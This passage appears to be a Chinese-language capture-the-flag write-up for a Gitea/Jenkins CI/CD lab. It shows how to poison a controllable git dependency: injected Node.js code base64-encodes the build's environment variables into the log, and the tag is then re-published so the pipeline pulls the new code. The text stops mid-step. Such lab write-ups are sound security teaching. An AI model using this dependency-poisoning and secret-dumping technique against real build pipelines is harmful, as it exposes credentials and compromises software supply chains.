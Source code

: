 ![image-20231106181122412](README.assets/image-20231106181122412.png)

## Twiddledum

目标是一个文件夹，gitea上有两个仓库，一个是twiddledee一个是twiddledum，尝试在jenkins里面构建twiddledum，发现pipeline中执行了node index.js，index.js中require了twiddledee，而且twiddledum不可控，而twiddledee可控，因此往twiddledee中注入恶意代码。

修改twiddledee的index.js：

```js
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

直接push到main分支上。

根据twiddledum的package.json：

```json
  "dependencies": {
    "twiddledee": "git+http://gitea:3000/Wonderland/twiddledee#semver:^1.1.0"
  },
```

它是通过字下载twiddledee的tag为1.1.0的源码来更新的。因此把之前1.1.0的版本发布和tag删除后重新发布：
